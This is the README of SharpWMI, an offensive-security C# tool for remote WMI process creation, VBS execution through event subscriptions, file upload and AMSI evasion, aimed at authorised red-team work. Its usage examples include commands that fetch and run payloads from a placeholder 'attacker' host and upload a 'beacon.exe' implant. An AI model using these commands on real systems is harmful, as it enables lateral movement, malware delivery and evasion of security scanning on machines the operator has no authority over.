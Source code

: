 
# SharpWMI

----

SharpWMI is a C# implementation of various WMI functionality. This includes local/remote WMI queries, remote WMI process creation through win32_process, and remote execution of arbitrary VBS through WMI event subscriptions. Alternate credentials are also supported for remote methods. 

[@harmj0y](https://twitter.com/harmj0y) is the primary author.

SharpWMI is licensed under the BSD 3-Clause license.

## Usage

```
  Local system enumeration:        
    SharpWMI.exe action=query query=""select * from win32_service"" [namespace=BLAH]

  Remote system enumeration: 
    SharpWMI.exe action=query [computername=HOST1[,HOST2,...]] query=""select * from win32_service"" [namespace=BLAH]

  Remote system Logged On users enumeration:
    SharpWMI.exe action=loggedon [computername=HOST1[,HOST2,...]]

  Remote process creation: 
    SharpWMI.exe action=exec [computername=HOST[,HOST2,...]] command=""C:\\temp\\process.exe [args]"" [amsi=disable] [result=true]

  Remote VBS execution: 
    SharpWMI.exe action=executevbs [computername=HOST[,HOST2,...]] [script-specification] [eventname=blah] [amsi=disable] [time-specs]

  File upload via WMI:
    SharpWMI.exe action=upload [computername=HOST[,HOST2,...]] source=""C:\\source\\file.exe"" dest=""C:\\temp\\dest-file.exe"" [amsi=disable]

  Remote firewall enumeration :
    SharpWMI.exe action=firewall computername=HOST1[,HOST2,...]
    
  List processes:
    SharpWMI.exe action=ps [computername=HOST[,HOST2,...]]

  Terminate process (first found):
    SharpWMI.exe action=terminate process=PID|name [computername=HOST[,HOST2,...]]

  Get environment variables (all if name not given):
    SharpWMI.exe action=getenv [name=VariableName] [computername=HOST[,HOST2,...]]

  Set environment variable
    SharpWMI.exe action=setenv name=VariableName value=VariableValue [computername=HOST[,HOST2,...]]

  Delete an environment variable
    SharpWMI.exe action=delenv name=VariableName [computername=HOST[,HOST2,...]]

NOTE: 
  - Any remote function also takes an optional ""username=DOMAIN\\user"" ""password=Password123!"".
  - If computername is not specified, will target localhost.
```

The `result=true` option on `action=exec` (alternatively `action=create`) makes SharpWMI to return command's output after remote WMI process creation. It works by storing command's output in an instance of arbitrary WMI object. That object would  then be fetched by callee and restored to it's original value.


### VBS Script execution:

The `executevbs` action was reworked as compared to the original version of SharpWMI.
Script specification defined in `[script-specification]` offers following methods to point this tool at target VBS code:

```
  A) Executes OS command via preset VBS code:
    SharpWMI.exe action=executevbs [...] command="notepad.exe"

  B) Downloads Powershell commands from URL and execute them from within VBS via Powershell's StdIn:
    SharpWMI.exe action=executevbs [...] url="http://attacker/myscript.ps1"

  C) Download a binary file from given URL, store it in specified path and then execute it:
                                         url="SOURCE_URL,TARGET_PATH"
    SharpWMI.exe action=executevbs [...] url="http://attacker/foo.png,%TEMP%\bar.exe"

  D) Download a binary file from given URL, store it in specified path and then execute arbitrary command:
                                         url="SOURCE_URL,TARGET_PATH"
    SharpWMI.exe action=executevbs [...] url="http://attacker/foo.png,%TEMP%\bar.exe" command="%TEMP%\bar.exe -some -parameters"

  E) Read VBS script from file and execute it:
    SharpWMI.exe action=executevbs [...] script="myscript.vbs"

  F) Execute given VBS script given literally:
    SharpWMI.exe action=executevbs [...] script="CreateObject(\\"WScript.Shell\\").Run(\\"notepad.exe\\")"

  G) Base64 decode input string being encoded VBS script and execute it on remote machine:
    SharpWMI.exe action=executevbs [...] scriptb64="Q3JlYXRlT2JqZWN0KCJXU2NyaXB0LlNoZWxsIi[...]"

  H) Read contents of given file, base64 decode them and then execute on target machine:
    SharpWMI.exe action=executevbs [...] scriptb64="myscript.vbs.b64"

  Finally, 'executevbs' action may have additional [time-specs] defined in seconds - they specify script trigger and wait timeouts:
    SharpWMI.exe action=executevbs [...] trigger=5 timeout=10
```


### Examples:

```
  SharpWMI.exe action=query query=""select * from win32_process""

  SharpWMI.exe action=query query=""SELECT * FROM AntiVirusProduct"" namespace=""root\\SecurityCenter2""

  SharpWMI.exe action=loggedon computername=primary.testlab.local

  SharpWMI.exe action=query computername=primary.testlab.local query=""select * from win32_service""

  SharpWMI.exe action=query computername=primary,secondary query=""select * from win32_process""

  SharpWMI.exe action=exec computername=primary.testlab.local command=""powershell.exe -enc ZQBj...""

  SharpWMI.exe action=exec computername=primary.testlab.local command=""whoami"" result=true amsi=disable

  SharpWMI.exe action=executevbs computername=primary.testlab.local command=""notepad.exe"" eventname=""MyLittleEvent"" amsi=disable

  SharpWMI.exe action=executevbs computername=primary.testlab.local username=""TESTLAB\\harmj0y"" password=""Password123!""

  SharpWMI.exe action=upload computername=primary.testlab.local source=""beacon.exe"" dest=""C:\\Windows\\temp\\foo.exe"" amsi=disable

  SharpWMI.exe action=terminate computername=primary.testlab.local process=explorer

  SharpWMI.exe action=getenv name=PATH computername=primary.testlab.local

  SharpWMI.exe action=setenv name=FOO value=""BAR"" computername=primary.testlab.local

  SharpWMI.exe action=delenv name=FOO computername=primary.testlab.local
```

Get local TCP netstat-style information from a remote Windows 10 machine:

    SharpWMI.exe action=query computername=COMPUTER query="Select LocalPort,OwningProcess from MSFT_NetTCPConnection" namespace="ROOT\StandardCIMV2"


## Compile Instructions

We are not planning on releasing binaries for SharpWMI, so you will have to compile yourself :)

SharpWMI has been built against .NET 3.5 and is compatible with [Visual Studio 2015 Community Edition](https://go.microsoft.com/fwlink/?LinkId=532606&clcid=0x409). Simply open up the project .sln, choose "release", and build.


## Authors

|Contribution  |Author  |
|--|--|
|Original SharpWMI implementation|[Will Schroeder @harmj0y](https://github.com/harmj0y)  |
|WMI code-exec output idea |[Evi1cg @Ridter](https://github.com/Ridter)  |
|AMSI evasion code taken from SharpMove |[Steven Flores 0xthirteen](https://github.com/0xthirteen)  |
|Enhancements, VBS flexibility, file upload |[Mariusz B. / mgeeky @mariuszbit](https://github.com/mgeeky)  |